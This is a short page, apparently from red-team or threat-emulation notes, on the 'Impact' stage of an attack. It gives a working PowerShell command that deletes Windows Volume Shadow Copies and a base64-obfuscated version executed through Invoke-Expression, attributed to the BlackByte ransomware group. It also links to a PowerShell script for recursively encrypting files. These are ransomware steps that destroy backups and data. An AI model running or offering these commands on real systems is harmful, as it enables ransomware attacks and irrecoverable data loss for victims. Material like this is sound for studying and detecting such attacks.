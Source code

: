 # Impact

## Remove Volume Shadow Copies

{% code overflow="wrap" %}
```powershell
Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
```
{% endcode %}

The threat actor TTP is associated with BlackByte and executes the above as base64.

{% code overflow="wrap" %}
```powershell
powershell.exe $x = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('RwBlA HQALQBXAG0AaQBPAGIAagBlAGMAdAAg'+'AFcAaQBuADMAMgBfAFMAaABhAGQAb wB3AGMAbwBwAHkAIAB8AC'+'AARgBvAHIARQBhAGMAaAAtAE8AYgBqAGUAYwB0A CAAewAkA'+'F8ALgBEAGUAbABlAHQAZQAoACkAOwB9AA=='));Invoke-Expression $x
```
{% endcode %}

## PowerShell Encryption Routine

A trivial example of encrypting files recursively with a random interger as the key

[https://github.com/burmat/burmatscripts/blob/master/powershell/AES-Locker.ps1](https://github.com/burmat/burmatscripts/blob/master/powershell/AES-Locker.ps1)
